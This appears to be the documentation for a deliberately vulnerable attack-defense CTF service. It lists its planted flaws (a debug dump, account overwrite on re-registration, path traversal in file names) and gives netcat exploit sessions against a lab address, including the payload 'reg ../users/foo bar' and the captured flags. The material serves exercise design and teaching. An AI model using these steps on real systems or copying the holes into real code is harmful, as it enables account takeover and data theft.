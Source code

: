 Service documentation
======================
This is the place to keep important documentation details about your service.

# Vulnerabilities

Please keep track of your intended vulnerabilities here:

## Debug enabled

- Category: Misconfiguration
- Difficulty: Easy

When `self.debug` is set to `True`, the `dump` command will list all users and their notes. 

## Account Takeover

- Category: Authentication
- Difficulty: Medium

When registering a new user, the service does not check if the user already exists and simply overwrites the password (`self.users[reg_user] = reg_pw`). The list of existing users can be obtained with the `user` command.

## Arbitrary Read or Write (Account Takeover v2)

- Category: Path traversal
- Difficulty: Medium

The `FilesystemDict` uses user-supplied input when constructing the file paths. This could be used to write JSON-encoded data to any files. 

The impact has to be further analyzed. It at least leads to another account takeover (overwrite the password for other users, i.e. using `reg ../users/foo bar`).

*Note:* Without a proper impact analysis, we would classify this issue as a `unintended` vulnerability. Please try to keep such issues to a minimum and document them nonetheless.

# Exploits

For each vulnerability, you should have a working example exploit ready! 

## Debug enabled:

Connect to the service and run `dump`:

```
gehaxelt@LagTop ~> nc 192.168.2.112 2323
Welcome to the 1337 testify!
> dump
Users:
test:test
foo:bar
     Note 0:acbd18db4cc2f85cedef654fccc4a4d8:foo
     Note 1:37b51d194a7513e45b56f6524f2d51f2:bar
     Note 2:acbd18db4cc2f85cedef654fccc4a4d8:foo
4FOBMO10HWLC:EDPWN79U2KNL
I4K3P0SK3PST:CK5FALD39Y0S
B70YKMW72KUR:79Y5IM7FD7O8
GB7QC0DKYXPS:89TY8HI6OCBA
NXPTITQUSN2M:WYIWSGRZNKTX
6699DPYPAQDL:7IFEPP3P3LBI
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
MPG81XWFHNE8:H8KP8VECBQOR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
QN973IXF53HT:9BUVY6JNMGIW
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
UI2WTY7E7KC5:87SB830QHVX3
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XXPLIXZ9ZN1Q:F88L3J4GA2LE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
N43LU1348D19:YWT9TFCSVA2T
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
3DP6COPE6GMX:OI9437MJORZR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
I8ZUNTWZ0Y0Q:B3AI1LN9SAAE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
JUACZ5J3D475:5RNZ1ETOFBS6
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
KGFZNGHROLUS:05826L6X39XM
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
FV9VM13K8MGF:POUIW5CM6PY2
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XAHOKR4QD63O:VENSD82XO1XM
     Note 0:199480a3640248d5ea679b596d91c350:SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

The flags are in the output.

## Account Takeover

Connect to the service and use the `user` command to obtain a list of users:

```
gehaxelt@LagTop ~ [130]> nc 192.168.2.112 2323
Welcome to the 1337 testify!
> user
User 0: test
User 1: foo
User 2: 4FOBMO10HWLC
User 3: I4K3P0SK3PST
User 4: B70YKMW72KUR
User 5: GB7QC0DKYXPS
User 6: NXPTITQUSN2M
User 7: 6699DPYPAQDL
User 8: MPG81XWFHNE8
User 9: QN973IXF53HT
User 10: UI2WTY7E7KC5
User 11: XXPLIXZ9ZN1Q
User 12: N43LU1348D19
User 13: 3DP6COPE6GMX
User 14: I8ZUNTWZ0Y0Q
User 15: JUACZ5J3D475
User 16: KGFZNGHROLUS
User 17: FV9VM13K8MGF
User 18: XAHOKR4QD63O
```

Use the username(s) and the `reg` command to set a different password. Next, `log`in as the user, `list` their notes and obtain the flag:

```
> reg XAHOKR4QD63O foo
User successfully registered
> log XAHOKR4QD63O foo
Successfully logged in!
> list 
Note 0: 199480a3640248d5ea679b596d91c350
> get 199480a3640248d5ea679b596d91c350
SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

## Arbitrary Read or Write (Account Takeover v2)

Connect to the service and list all users:

```
gehaxelt@LagTop ~/C/A/e/service-example (cleanup)> nc 192.168.2.112 2323
Welcome to the 1337 testify!
> users
User 0: 0WTC89S0Y67Y
User 1: HWG5RBYEQX3Y
User 2: XK2UJAC7KWMB
User 3: CF8TFV304DMO
User 4: E9XAV2ACHRY0
User 5: SHBSC21EC963
User 6: AC1MSHQS7HE8
User 7: OVTN3ZXRO7X0
User 8: IM03X7OWDEV7
User 9: NQST4C3ABWLD
User 10: VS7ZY06LELHI
User 11: WFS6JGH8DDYO
User 12: WBAYX5MLDMIG
User 13: H4YXGNP9D3GS
User 14: S735UCC1O7FE
User 15: foo
```

Use the username(s) and the `reg` command to set a new password by abusing the path traversal bug:

```
gehaxelt@LagTop ~/C/A/e/service-example (cleanup)> nc 192.168.2.112 2323
Welcome to the 1337 testify!
> reg ../users/foo bar
User successfully registered
> log foo bar
Successfully logged in!
> list
Note 0: 581f1b0f439b22d1d2c617d1e8963505
> get 581f1b0f439b22d1d2c617d1e8963505
ENOTESTFLAG
```